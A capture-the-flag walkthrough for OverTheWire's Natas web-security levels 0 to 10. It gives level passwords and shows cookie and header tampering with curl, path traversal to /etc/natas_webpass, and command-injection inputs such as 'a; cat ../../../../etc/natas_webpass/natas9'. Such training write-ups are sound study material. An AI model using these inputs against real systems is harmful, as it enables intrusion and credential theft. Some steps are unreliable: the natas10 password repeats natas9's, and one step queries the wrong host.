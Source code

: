 ﻿Over the Wire's **Natas** Walkthrough by AlbertoSpinella.

Don't be sly! Try to solve the challenges on your own before comparing with my solutions.

# Index
1. [natas 0](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-0)
2. [natas 0 -> 1](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-0---1)
3. [natas 1 -> 2](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-1---2)
4. [natas 2 -> 3](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-2---3)
5. [natas 3 -> 4](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-3---4)
6. [natas 4 -> 5](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-4---5)
7. [natas 5 -> 6](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-5---6)
8. [natas 6 -> 7](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-6---7)
9. [natas 7 -> 8](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-7---8)
10. [natas 8 -> 9](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-8---9)
11. [natas 9 -> 10](https://github.com/AlbertoSpinella/over-the-wire-natas-partial#natas-9---10)

## natas 0

 - Visit the link: http://natas0.natas.labs.overthewire.org
	 - username: natas0
	 - password: natas0

## natas 0 -> 1
 - Right-click and select "Inspect".
 - Open the first `<div>` and you'll find the password.
 - Visit the link: http://natas1.natas.labs.overthewire.org
	 - username: natas1
	 - password: gtVrDuiDfck831PqWsLEZy5gyDz1clto

## natas 1 -> 2

 - Press F12.
 - Open the first `<div>` and you'll find the password.
 - Visit the link: http://natas2.natas.labs.overthewire.org
	 - username: natas2
	 - password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## natas 2 -> 3
 - Press F12.
 - Open the first `<div>`.
 - There's a `<img>` tag. Open the src link.
 - You're now at `/files/pixel.png`. Remove the pixel.png to visit `/files`.
 - Click on `users.txt` to find the password for natas3.
 - Visit the link: http://natas3.natas.labs.overthewire.org
	 - username: natas3
	 - password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## natas 3 -> 4
 - Press F12.
 - Since it says "Not even Google will find it this time...", append to the link `/robots.txt`.
 - Replace /robots.txt with `/s3cr3t`. Then click on the file `users.txt` to find the password for natas4.
 - Visit the link: http://natas4.natas.labs.overthewire.org
	 - username: natas4
	 - password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## natas 4 -> 5
 - Click on "refresh page" to see that the Referer header change.
 - Open a terminal and run the following command in order to generate the base64 token from username and password:
	- `generate_token=$(echo -ne "natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" | base64 --wrap 0)`
 - Now run the following command to make a request with a specific Referer header:
	- `curl -H "Authorization: Basic $generate_token" --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org`
 - Visit the link: http://natas5.natas.labs.overthewire.org
	- username: natas5
	- password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## natas 5 -> 6
 - Generate the base64 token and save it to a variable:
	- `generate_token=$(echo -ne "natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" | base64 --wrap 0)`
 - Try the following curl:
	- `curl -H "Authorization: Basic $generate_token" http://natas5.natas.labs.overthewire.org`
 - Display headers adding `-I`:
	- `curl -H "Authorization: Basic $generate_token" -I http://natas5.natas.labs.overthewire.org`
 - As you can see, there's a header loggedin=0. Try setting it to 1 in the curl:
	- `curl -H "Authorization: Basic $generate_token" -H "Cookie: loggedin=1" http://natas5.natas.labs.overthewire.org`
 - Visit the link: http://natas6.natas.labs.overthewire.org
	- username: natas6
	- password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## natas 6 -> 7
 - Generate the base64 token and save it to a variable:
	- `generate_token=$(echo -ne "natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1" | base64 --wrap 0)`
 - On the browser, and click on "View sourcecode".
 - As you can see, there's a line `include "includes/secret.inc";`. Try to visit the page: `http://natas5.natas.labs.overthewire.org/includes/secret.inc`. If you can't see anything, try to curl:
	 - `curl -H "Authorization: Basic $generate_token" http://natas5.natas.labs.overthewire.org/includes/secret.inc`
 - Copy the secret, go back to natas6 homepage and paste it in the "Input secret" field.
 - Visit the link: http://natas7.natas.labs.overthewire.org
	- username: natas7
	- password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## natas 7 -> 8
 - Press F12.
 - Open the first `<div>` and find the hint. Try visit the following link: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
 - Visit the link: http://natas8.natas.labs.overthewire.org
	- username: natas8
	- password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## natas 8 -> 9
 - On the browser, and click on "View sourcecode".
 - Look at the `encodeSecret()` function. It encode to base64, then revert the string, then convert to hex. Execute this PHP script, which do the inverse operations:
```
<?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
function decodeSecret($encodedSecret) {
    print base64_decode(strrev(hex2bin($encodedSecret)));
}
decodeSecret($encodedSecret);
?>
```
 - Once you have found the secret, go back to natas8 homepage and paste it in the "Input secret" field.
 - Visit the link: http://natas9.natas.labs.overthewire.org
	- username: natas9
	- password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# natas 9 -> 10
 - Try entering something in the field, then press Search. Then click on View sourcecode.
 - As you can't see, the input isn't sanitized. Try to search `a; ls -l`.
 - Now search `a; pwd` to print your current directory.
 - Now run `a; cat ../../../../etc/natas_webpass/natas9`.
 - Visit the link: http://natas10.natas.labs.overthewire.org
	- username: natas10
	- password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl